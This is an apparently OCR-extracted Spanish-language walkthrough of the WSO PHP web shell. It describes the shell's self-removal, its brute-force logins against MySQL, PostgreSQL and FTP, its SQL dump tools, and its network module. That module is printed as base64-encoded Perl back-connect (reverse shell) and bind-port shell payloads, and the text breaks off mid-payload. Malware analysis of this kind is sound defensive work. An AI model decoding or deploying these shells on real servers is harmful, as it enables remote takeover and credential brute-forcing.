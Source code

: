 ## **`actionSelfRemove`**
1. Ejecuta la función **`wsoHeader`**
1. Solicita una confirmación y ejecuta la función *unlink* sobre **_FILE_** para eliminar el archivo
1. Ejecuta la función **`wsoFooter`**

## **`actionBruteForce`**
1. Ejecuta la función **`wsoHeader`**
1. Ejecuta funciones de intentos de login Fuerza bruta de los siguientes tipos:
    1. etc/passwd : reverse (login -> nigol)
    1. dictionary
    
    Y lo ejecuta sobre los siguientes servicios:
    1. Mysql
    1. Postgresql
    1. FTP
1. Ejecuta la función **`wsoFooter`**

## **`actionSQL`**
1. Define una clase llamada DbClass que contiene las siguientes funciones sobre base de datos:
    1. connect
    1. select db
    1. query
    1. fetch 
    1. list db
    1. list tables
    1. throw error
    1. set charset
    1. laod file
    1. dump

1. Ejecuta la función **`wsoHeader`**
1. Muestra un editor que puede llamar a las funciones anteriormente definidas
1. Ejecuta la función **`wsoFooter`**

## **`actionNetwork`**
1. define 2 variables *back_connect_p* y *bind_port_p* con los siguientes caracteres:
    > **`$back_connect_p`**= "IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGlhZGRyPWluZXRfYXRvbigkQVJHVlswXSkgfHwgZ
GllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRBUkdWWzFdLCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKTsN
CiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3R
vKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGV
uKFNURElOLCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNC
nN5c3RlbSgnL2Jpbi9zaCAtaScpOw0KY2xvc2UoU1RESU4pOw0KY2xvc2UoU1RET1VUKTsNCmNsb3NlKFNUREVSUik7";
 
    > **`$bind_port_p`** = "IyEvdXNyL2Jpbi9wZXJsDQokU0hFTEw9Ii9iaW4vc2ggLWkiOw0KaWYgKEBBUkdWIDwgMSkgeyBleGl0KDE
pOyB9DQp1c2UgU29ja2V0Ow0Kc29ja2V0KFMsJlBGX0lORVQsJlNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCd0Y3AnKSkgfHwgZ
GllICJDYW50IGNyZWF0ZSBzb2NrZXRcbiI7DQpzZXRzb2Nrb3B0KFMsU09MX1NPQ0tFVCxTT19SRVVTRUFERFIsMSk7DQpiaW5kKFM
sc29ja2FkZHJfaW4oJEFSR1ZbMF0sSU5BRERSX0FOWSkpIHx8IGRpZSAiQ2FudCBvcGVuIHBvcnRcbiI7DQpsaXN0ZW4oUywzKSB8fCBk
aWUgIkNhbnQgbGlzdGVuIHBvcnRcbiI7DQp3aGlsZSgxKSB7DQoJYWNjZXB0KENPTk4sUyk7DQoJaWYoISgkcGlkPWZvcmspKSB7DQ
oJCWRpZSAiQ2Fubm90IGZvcmsiIGlmICghZGVmaW5lZCAkcGlkKTsNCgkJb3BlbiBTVERJTiwiPCZDT05OIjsNCgkJb3BlbiBTVERPVVQsIj
4mQ09OTiI7DQoJCW9wZW4gU1RERVJSLCI+JkNPTk4iOw0KCQlleGVjICRTSEVMTCB8fCBkaWUgcHJpbnQgQ09OTiAiQ2FudCBleGV